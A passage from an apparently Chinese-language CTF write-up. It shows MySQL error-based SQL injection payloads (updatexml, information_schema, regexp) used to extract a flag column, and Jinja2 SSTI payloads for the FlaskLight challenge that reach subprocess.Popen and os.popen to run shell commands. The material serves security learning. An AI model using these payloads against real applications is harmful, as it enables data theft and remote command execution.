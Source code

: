 Emails不能有@，先注册一个用户:`1"` 当修改密码时报错

![](https://img-blog.csdnimg.cn/6e2495ff6b194a6695a44641eb638ae5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

可见是双引号包裹，报错注入

```
2"||(updatexml(1,concat(0x7e,database(),0x7e),1))#
2"||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli')),0x7e),1))#

2"||(updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e),1))#
```

真flag在users表中,但是列名没有输出完整

使用正则匹配


>2"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))),1))#

`regexp('^r')是MySql的正则`，^r 匹配开头是r的字段，也就是`column_name=real_flag_1s_her`

得到列名进行查询

>username=mochu7"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#

这里`regexp('^f')`的意思是查找字段中f开头的内容，其实就是在找flag{XXXX}

过滤left right再reverse一下就行了

---
# [CSCCTF 2019 Qual]FlaskLight

- SSTI

![](https://img-blog.csdnimg.cn/549c727e6b704b14a39f5ee8a6e48bc2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

![](https://img-blog.csdnimg.cn/765c6be0f591463d8e53648fc1809f97.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

![](https://img-blog.csdnimg.cn/dadef210f7b3426ca822b1efa4eaeb74.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
?search={{''.__class__.__mro__[2].__subclasses__()}}
#爆出所有类
```
利用 `subprocess.Popen`类


一般在258位置

Payload：
```
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```
或者
```
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /').read()}}
```

---